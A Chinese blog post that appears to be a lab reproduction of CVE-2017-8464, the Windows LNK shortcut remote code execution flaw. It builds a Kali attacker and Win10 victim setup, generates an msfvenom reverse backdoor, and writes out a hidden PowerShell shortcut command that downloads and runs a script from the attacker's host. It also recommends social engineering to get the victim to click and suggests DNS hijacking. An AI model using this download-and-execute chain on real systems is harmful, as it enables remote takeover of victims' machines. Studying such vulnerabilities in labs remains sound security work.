

# CVE-2017-8464 LNK 文件（快捷方式）远程代码执行漏洞复现 - HsinTsao - 博客园

> 原文：[`www.cnblogs.com/HsinTsao/p/7235931.html`](https://www.cnblogs.com/HsinTsao/p/7235931.html)

北京时间 2017 年 6 月 13 日凌晨，微软官方发布 6 月安全补丁程序，“震网三代” LNK 文件远程代码执行漏洞（CVE-2017-8464）和 Windows 搜索远程命令执行漏洞（CVE-2017-8543）.

CVE-2017-8543，当 Windows 搜索处理内存中的对象时，存在远程执行代码漏洞。成功利用此漏洞的攻击者可以控制受影响的系统。

CVE-2017-8464，当 Windows 系统在解析快捷方式时，存在远程执行任意代码的高危漏洞，黑客可以通过 U 盘、网络共享等途径触发漏洞，完全控制用户系统，安全风险高危。

攻击机 Kali

IP： 192.168.1.113

靶机：win10

IP： 192.168.1.3

1.使用 msfvenom 生成一个 msf 反弹后门

 

2.将/opt 下的 search.psl 复制到 /var/www/html 下

 

3.启动 apache 服务 service apache2 start

4.在靶机上创建一个 powershell 远程快捷：

C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -windowstyle hidden -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.113/search.ps1');test.ps1"

5.在 kali 下监听

6.利用社会工程学误导靶机点击 powershell 快捷方式，kali 就可以监听到了

成功

思考：当 Apache 启动之后，靶机可以通过访问 192.168.1.113 来触发 spl，那么可以利用 DNS 劫持使靶机，引导靶机访问。